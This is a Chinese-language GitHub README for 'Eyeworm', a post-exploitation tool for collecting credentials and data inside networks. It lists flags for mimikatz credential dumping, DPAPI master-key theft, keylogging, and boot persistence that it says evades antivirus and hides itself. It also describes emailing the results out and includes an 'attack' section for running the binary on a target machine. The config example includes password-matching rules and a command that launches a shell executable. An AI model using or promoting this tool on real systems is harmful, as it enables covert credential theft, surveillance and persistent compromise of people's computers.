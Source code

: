 # Eyeworm V 1.2.0 
一款强大的内网信息收集工具，支持文件、文件夹、文件内容、命令、注册表、进程、mimikatz命令、dpapi、最近访问收集，且支持定制化配置，只需更新配置文件，定义收集规则，即可开启对各类浏览器、remote工具、聊天软件进行凭据、信息收集


我即是虫群!
![EyeWorm](EyeWorm.jpg)


## 功能
-wfiles  根据配置文件对文件、文件夹、内容收集 文件名支持通配符 *，?  例如: a?c、ab* 、 *密码


-wcommands  根据配置文件的cmd命令集收集输出信息（結合wfiles，可进行命令结果文件收集）


-wprocess 根据配置文件的进程名，匹配正在运行的进程路径进行信息收集


-wregistry 根据配置文件配置收集注册表项信息


-wrecent  根据配置文件配置收集最近访问中的目标文件


-wmimikatz 根据配置文件配置 使用加密型mimikatz进行结果收集


-dpapi 获得Masterkey


-spy 开启监控，关机后结束


-redeye 开启常驻模式（开机自启），需要配置 回传邮件、打包密码、常驻规则。（该模式已经实现免杀和隐藏，必须用相同配置文件的unred解除）
例如 ：`Eyeworm -wfiles -wcommands -redEye` 开启文件、命令 的常驻收集


-upload 上传收集结果 需要配置 回传邮件、打包密码


-o="result.txt" 把收集结果输出文件


-keylog 键盘记录功能开启（必须开启redeye或spy）


-unred 解除该电脑的redeye常驻模式

## 配置文件 EyeConfig.json

下列是单个收集策略：
`        {

            "RuleName":"DefultFilesWorm",         //规则名称 如扩展chromeWorm，QQBrowerWorm 用于区分
            
            "OS": "Windows",                      //操作系统   
            
            "CollectorType": "File",              //收集策略类型， 如wfiles 收集的就是类型为File的收集策略 
                                                （File 文件收集，Command 命令收集，Recent 最近访问，Process 进程收集，Registry 注册表收集 APi mimikatz收集）
            
            "Category": "defult",                // 分类 用于归类如：Browsers、remoteTools,、chatTool
            
            "Locations":["C:/Users/admin/Chrome","E:/QQ"],  //搜索路径集
            
            "ContentKeys": ["\"_id\":","password:"],       //内容收集的匹配字
            
            "FileName":["*c","a?b","*"],                    //文件名匹配字            
            
            "SuffixTypes":[".txt"],                         // 搜索文件后缀
            
            "Explain": "文件及文件夹收集,支持 * 通配符  ",
            
            "Commands":["set","ipconfig","start 'E:\shell.exe'"],    // 命令收集中需要执行的命令,（收集结果）
            
            "ProcessName": ["QQ.exe","Chrome.exe"],                 // 进程收集中的进程
            
            "DeCrypt": false,                                     //   保留字 解密功能（todo）
            
            "DeCryptCommand": null                                //保留字  解密命令 （todo）
            
        },`
           
## 使用

### 编译
进入 PackSource 中，配置好ico，EyeConfig.json，versioninfo.json，main.manifest 四个文件 运行PackSource.go 得到 main.syso 在EyeWorm目录下


回到EyeWorm目录下，go build 

### 更新配置文件
由于配置文件是内嵌go中的，防止重复编译麻烦，提供UpdateSource更新内嵌的EyeConfig.json 配置文件


修改好EyeConfig.json


编译UpdateSource中内容，得到更新工具UpdateSource.exe


使用`UpdateSource.exe -File=Eyeworm.exe -Data=EyeConfig.json`  即可更新


### 攻击
Eyeworm.exe上传在目标机器上执行对应命令
例：`Eyeworm.exe -wfile -wcommand -wprocess -wregistry -wrecent -wmimikatz -keylog -redeye`

![commnd](img1.png)
![config](img2.png)

## 注意
由于继承mimiktaz，以及隐藏，免杀功能 需要使用system权限运行，否则 常驻和mimikatz功能可能失败

# 联系我                ---萧枫
本人热爱技术，钻研，欢迎志同道合的兄弟一起研究讨论
邮件：1098516987@qq.com      CSDN:[https://blog.csdn.net/VB551](https://blog.csdn.net/VB551)
# 转载发表请注明原文地址  [https://github.com/imsellbaox/Eyeworm](https://github.com/imsellbaox/Eyeworm)
